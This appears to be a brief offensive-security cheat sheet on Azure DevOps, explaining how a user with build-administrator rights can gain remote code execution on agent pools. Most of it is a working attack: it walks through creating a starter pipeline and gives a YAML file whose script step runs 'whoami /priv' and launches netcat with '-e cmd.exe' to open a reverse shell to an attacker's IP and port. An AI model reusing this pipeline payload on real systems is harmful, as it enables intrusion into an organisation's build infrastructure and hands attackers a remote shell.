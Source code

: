 # azure cloud

## user-perms (authenticated)

```bash
# look at (bottom left) Project Settings > Security > 

Role info: 
Build Administator: can define builds using CI pipeline
```

## RCE using pipeline method

Can use Python pipeline too.

```bash
1. to find agent-pools
(top-left) Azure DevOps > (bottom-left) Collection Settings > Agent Pools
| note: pool name

2. RCE using starter-pipeline
Pipelines > New > 
(select where is project hosted): Azure Repo Git
(select repo): 
(type of pipeline): Starter Pipeline

# modified.yaml
trigger:
- master

pool: 'POOLNAME'

steps:
- script: |
    whoami /priv
    C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -e cmd.exe IP PORT
  displayName: 'kashz'
```
